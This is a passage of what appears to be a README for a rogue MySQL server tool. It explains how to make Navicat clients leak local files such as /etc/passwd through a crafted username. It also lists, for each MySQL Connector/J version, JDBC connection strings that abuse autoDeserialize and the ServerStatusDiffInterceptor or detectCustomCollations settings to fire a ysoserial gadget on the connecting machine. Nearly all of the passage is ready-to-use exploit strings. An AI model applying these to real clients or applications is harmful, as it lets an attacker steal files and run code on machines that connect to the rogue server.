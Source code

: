 3. About authentication：The default authentication plugin is **mysql_native_password**,But due to the bugs of protocol implementation，it will  connect failed with Navicat client.

    At this time, append **_clear** to the username for switch the  authentication plugin to **mysql_clear_password**, and the Navicat client will connect to fake server successfull and get the file content.

    - **e.g.：** fileread\_/etc/passwd_clear

## JDBC Connection Strings

I sorted JDBC Connection Strings out  while writing the analysis：https://www.anquanke.com/post/id/203086
Please refer to the above description to modify the username.

### ServerStatusDiffInterceptor Attribute Exploit:

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(Attribute name is different):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11 and above 5.x version（package name with out "cj"）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10 and below 5.1.X version：** Same as above， But you need to execute arbitrary query after connecting。

- **5.0.x:** No`ServerStatusDiffInterceptor`Attribute yet.┓( ´∀` )┏

### detectCustomCollations Attribute Exploit：

- **5.1.41 and above:** unavailable

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.x versions below 5.1.18：** unavailable

- **Version 5.0.x is not available** 

## Some Examples

Navicat File Reading Exploit（username is win_ini_clear）
